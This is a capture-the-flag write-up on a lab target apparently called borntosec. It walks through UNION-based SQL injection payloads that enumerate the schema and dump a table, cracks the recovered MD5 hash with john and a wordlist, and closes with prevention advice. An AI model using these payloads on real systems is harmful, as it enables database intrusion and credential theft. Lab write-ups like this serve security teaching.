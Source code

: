# SQL injection
- a type of attack where a malicious user attempts to pass input that alters the final SQL query sent by the web application to the database
- the attacker first injects SQL code and then manipulates the web application logic, either by changing the original query or executing a completely new one
- https://book.hacktricks.xyz/pentesting-web/sql-injection

<b>keywords</b>: SQL<br>
<b>attacked site</b>: http://borntosec.42/?page=images

## Exploit
On the images page, there’s a search bar similar to the one on the members page. After some initial examination, we can see that we are interacting with the same database but a different schema:
``` sql
1 OR 1=1 UNION SELECT 1,database()-- -
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT 1,database()-- - 
Title: Member_images
Url : 1
```
Next, we check the columns that this table offers:
``` sql
1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS-- -
```
└─     Filtered output:
```
[...]
ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
Title: list_images
Url : id
[...]
```
Now we know that the <code>list_images</code> table includes these columns:
```
id, url, title, comment
```
Enumerating the columns manually would be time-consuming, so we concatenate the columns to display them in the second column:
``` sql
1 OR 1=1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 	1928e8083cf461a51303633093573c46
Url : 1
```
Given the hashed password and the encryption method, we can directly brute-force it using <code>john</code>:
``` shell
└─$ john sql2_hash.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
albatroz         (?)     
1g 0:00:00:00 DONE (2024-08-08 23:35) 5.000g/s 5166Kp/s 5166Kc/s 5166KC/s aldaya..alamo7
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
Finally, we hash the password using SHA-256:
``` shell
└─$ echo -n "albatroz" | sha256sum                                         
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
```
## Flag
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Exploit prevention
- validate and sanitize input
- use prepared statements (separate SQL logic from data)
- ensure that the database user account used by the application has the minimum necessary permissions
